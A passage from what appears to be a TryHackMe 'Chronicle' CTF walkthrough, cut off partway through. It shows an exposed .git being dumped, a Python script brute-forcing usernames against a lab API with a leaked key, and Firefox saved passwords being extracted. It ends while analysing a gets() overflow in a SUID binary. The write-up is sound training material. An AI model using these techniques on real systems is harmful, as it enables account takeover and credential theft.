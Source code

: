 <h3> Chronicle TryHackme </h3>

Difficulty = Medium

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f7ee2c74-5e1f-4d75-8d4d-b0b5b2f486a2)

Checking the web instance on port 80 shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/71784515-0b27-473a-9a77-61ef766a769e)

Using gobuster I'll fuzz for directories
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/62d7ed93-1659-4a25-b6f7-a6aee60f7554)

It shows another directory called /old checking it shows a note.txt file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4305325b-a2c2-49a2-807b-d55f2aa81753)

Reading its content shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/20314b8a-3563-4c1d-a81f-24453ed26d68)

I'll fuzz for things there again
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/76abb144-02a7-4230-86df-8b0ebc565725)

We can see 200 http code status for */.git/HEAD*

Lets confirm it 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cfe91460-75cc-44be-9cea-6286875f4d31)

Boom we have an exposed .git on the web server

Using *git-dumper* I'll dump its content committed 🙂
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4e108f8b-672d-4b3a-baa3-6436d0f4eba0)

Looking at the cwd we can see *note.txt*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/308df6ff-6601-45aa-a697-3a6ae79d40af)

Checking the git logs gives this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1bb765ce-35e8-489e-b55b-6ea50f77f1fa)

```
Command: git log
```

Looking through commit one shows the css of the web app
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4bfd8e12-a26d-4d5a-b301-30e631142c45)

While for commit two shows the web app source code
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9a686473-8542-4ce6-91c6-581606421676)

And remember that there's another web server running on port 8081 so likely this is the source code since nmap showed that its based off a python web server

Moving over to port 8081 shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e9203a58-15e3-4e8f-bd08-d8eedc79f08f)

Nothing much interesting there except the login page
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/5d70971f-5853-4bff-b8da-8f423b56f8f7)

And the forgot password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/02a79e9d-c6fd-4108-a554-5975a0ffb15c)

Looking at the source code shows that it really indeeds just requires a username then it shows the password of that user
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/d70fca49-8b76-4ccf-b840-d8c31b3f87f8)

But it requires the correct key value for it to work and since we have it lets try it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b1bf3b15-0e4f-44e5-88db-b1be6760e6d2)

We get Invalid Username the only here is to brute force right?

So I made a script to do that for me

```python
import requests
import json

# wordlist = /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

with open('usernames.txt', 'r') as f:
    usernames = [line.strip() for line in f.readlines()]

for users in usernames:
    url = f'http://10.10.39.47:8081/api/{users}'
    data = {
        "key": "7454c262d0d5a3a0c0b678d6c0dbc7ef"
       }
    key = json.dumps(data)
    header = {'Content-type': 'application/json'}
    proxy = {'http': 'http://127.0.0.1:8080'}
    req = requests.post(url, data=key, headers=header, proxies=proxy)
    if 'Invalid Username' not in req.text:
        print(f'Username Found = {users}')
        print(req.text)
```

Running it gives a username and its password
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9f3a2472-971e-43d9-af36-15f6f5320b65)

Now we can login to ssh using *tommy:DevMakesStuff01*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6ea9c656-029e-48fb-9c2e-c21690b63e4d)

Lets escalate privilege 

After checking the other user directory I got a mozilla directory
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/28a0b5c6-7756-4742-ae61-c12a2e852d37)

We can use this [tool](https://github.com/lclevy/firepwd) to dump its password

First I need to make a tar ball of it then transfer it to my host
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/0e9f60f2-0f36-4ca0-ba3c-b02b42e653e1)

Now i will decompress it and use the tool to dump it
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/793c2cba-17d5-4aa9-a0f8-e38d9b958ef2)

But it asks for password after some trial *password1* works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/885e14d5-931b-46ce-820a-9892502c5c2a)

I then tried loggin in to ssh as user *carlJ:Pas$w0RD59247*
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/67e5eee9-52cc-4f66-8fdd-1910f5ba9ad6)

Searching for suid shows this binary 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/56299232-7412-42dd-8242-3f2c9866402c)

I transferred it to my machine and decompiled it in ghidra

Lets check the file type and the mitigations enabled
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1166be89-1a17-4b36-bf29-b8de1f940707)

It's a x64 binary and has only one protection enabled which is :

```
1. NX enabled (No-Execute)
```

What NX enabled prevents is shellcode being placed on the stack and executing it

Looking at the main function shows this:

```c
int main(void)  {   
    int buf;
    char message [80];
    setuid(0);
       
    puts("What do you wanna do\n1-Send Message\n2-Change your Signature");
    __isoc99_scanf(%d, &buf);
    fgetc(stdin);
    
    if (buf == 1) {
        puts("What message you want to send(limit 80)");
        fgets(message,80,stdin); 
        puts("Sent!");
    }   
    else if (buf == 2) {     
        puts("Write your signature...");
        sig();
    }   
    
    return 0; 
}
```

And here's the sig() decompiled function:

```c
void sig(void)  { 
    char buf [64];
    gets(buf); 
    puts("Changed");
    
    return;
}
```

From the code we can tell that it a binary that:

```
1. Asks if we want to send a message or change signature
2. If we choose the send message option it prompts for input then receives 80 bytes of our input which is stored in a 80 bytes buffer and puts Sent!
3. If we choose the change signature option it calls the sig function which uses gets() to receive out input then puts Changes # bug here 
```

Looking at the sig function we can tell it's a buffer overflow vulnerability from the usage of gets() in the code

Lets get the offset to over
